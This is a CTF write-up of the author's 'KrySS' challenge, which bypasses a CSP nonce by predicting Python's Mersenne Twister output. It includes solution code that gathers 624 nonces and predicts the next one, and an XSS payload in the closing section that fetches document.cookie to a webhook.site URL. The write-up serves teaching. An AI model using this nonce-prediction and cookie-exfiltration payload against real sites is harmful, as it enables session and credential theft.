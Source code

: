 ```yaml
---
layout: post
title: KrySS writeup
tags: crypto web
categories: crypto web
---
```


# Kryss

so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution
![Alt text](/assets/kryss_images/image1.png "Title")

in the / route we got this page and a button that should give us a cookie, and when click on it we got the following  :
![Alt text](/assets/kryss_images/image2.png?raw=true "Title")

and its a unique userId (we will see later what this is used for)

![Alt text](/assets/kryss_images/image3.png?raw=true "Title")

and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see and obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header wich will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but how can we predict each user's sequence ? if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* (https://cryptopals.com/sets/3/challenges/23)
* (https://cryptopals.com/sets/3/challenges/22)

but we can use a tool for that:
* (https://github.com/tna0y/Python-random-module-cracker): and it requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenge's domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51`
* full payload generator will be in the [exploit.py](https://github.com/0lston/defensys_ctf/blob/main/web/KrySS/solution/exploit.py)
* submit that url to the admin bot
* and then get the flag from the webhook

![Alt text](/assets/kryss_images/image4.png?raw=true "Title")

